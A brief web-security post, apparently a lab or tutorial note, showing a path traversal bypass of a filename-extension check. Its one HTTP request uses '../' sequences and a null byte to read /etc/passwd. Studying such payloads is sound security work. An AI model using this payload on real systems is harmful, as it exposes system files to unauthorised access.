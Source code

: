 
#websecurity  #webexploitation 

> The application validates that the supplied filename ends with the expected file extension.

`GET /image?filename=../../../../../../etc/passwd%00.jpg HTTP/2`

